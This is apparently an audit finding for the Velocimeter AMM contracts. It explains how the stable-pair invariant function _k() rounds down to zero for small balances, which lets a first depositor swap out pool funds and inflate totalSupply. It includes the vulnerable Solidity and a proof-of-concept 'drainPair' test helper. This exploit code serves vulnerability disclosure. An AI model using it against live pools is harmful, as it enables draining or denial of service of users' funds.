 ## Vulnerability Detail
[Pair::_k()](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L403-L413)
```solidity
    function _k(uint x, uint y) internal view returns (uint) {
        if (stable) {
            uint _x = x * 1e18 / decimals0;
            uint _y = y * 1e18 / decimals1;
            uint _a = (_x * _y) / 1e18;
            uint _b = ((_x * _x) / 1e18 + (_y * _y) / 1e18);
            return _a * _b / 1e18;  // x3y+y3x >= k
        } else {    
            return x * y; // xy >= k
        }
    }
```
`Pair::_k` contains two different curves:
`x3y+y3x` for stable pairs.
`x * y` for volatile pairs.

The stable pair curve calculation is susceptible to rounding down to 0 if `_x *_y < 1e18` which will cause the return value of `k` to be `0`.

This allows the first user to transfer amounts of tokenA and tokenB that multiplied are less than 1e18, then mint LP tokens.

After this the user can swap most of the balance that they transfered during the mint, without having to worry about the curve invariant check, as `_k()` will return 0 for both calls:
`require(_k(_balance0, _balance1) >= _k(_reserve0, _reserve1), 'K');`

As long as the user transfers 1 token before the swap call to satisfy the `amountIn` check:
`require(amount0In > 0 || amount1In > 0, 'IIA');`

Below is a coded POC to demonstrate the attack that is possible, by transfering, minting and swapping tokens repeatedly, inflating `totalSupply` close to overflow.

Note: This issue was previously reported during an audit of Velodrome: [Link](https://solodit.xyz/issues/first-liquidity-provider-of-a-stable-pair-can-dos-the-pool-spearbit-none-velodrome-finance-pdf)

## POC
Add the following function and test to `Pair.t.sol`:
```solidity
    function drainPair(Pair pair, uint initialFraxAmount, uint initialDaiAmount) internal {
        DAI.transfer(address(pair), 1); // transfer 1 DAI to pass `IIA` require check in swap()
        uint amount0;
        uint amount1;
        if (address(DAI) < address(FRAX)) {
            amount0 = 0;
            amount1 = initialFraxAmount - 1;
        } else {
            amount1 = 0;
            amount0 = initialFraxAmount - 1;
        }
        pair.swap(amount0, amount1, address(this), new bytes(0));
        FRAX.transfer(address(pair), 1); // transfer 1 FRAX to pass `IIA` require check in swap()
        if (address(DAI) < address(FRAX)) {
            amount0 = initialDaiAmount;
            amount1 = 0;
        } else {
            amount1 = initialDaiAmount;
            amount0 = 0;
        }
        pair.swap(amount0, amount1, address(this), new bytes(0));
    }
```